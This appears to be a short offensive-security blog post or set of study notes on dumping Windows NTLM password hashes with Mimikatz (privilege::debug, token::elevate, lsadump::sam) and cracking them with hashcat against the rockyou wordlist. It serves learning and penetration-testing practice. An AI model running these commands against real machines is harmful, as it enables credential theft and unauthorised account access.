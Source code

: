 ```yaml
---
layout: post
title: NTLM Password Cracking
titledate: 09/12/23
tags: ["infosec","offsec", "password", "mimikatz", "ntlm"]
---
```


#### LSASS 

a windows  processthat handles user authentication, password changes, and access token creation for local and remote users

it caches NTLM hashes and other creds that we can use Mimikatz to extract, however it runs uner the system user so we need to have admin privs or higher and have SeDebugPrivilege enabled to allow us to debug other users' processes

first let's run powershell to find the local user
    
    PS> Get-LocalUser

start ps as admin and run mimikatz

enable debug privs

    mimikatz# privilege::debug

try to elevate our privs to SYSTEM user

    mimikatz# token::elevate

try to dump the ntlm hash

    mimikatz# lsadump::sam

next we try to crack the ntlm hash on our linux machine

    $ echo 3ae8e5f0ffabb3a627672e1600f1ba10 > user.hash

find the correct hashcat mode

    $ hashcat --help |grep -i 'ntlm'

now we can crack the hash

    $ hashcat -m 1000 user.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

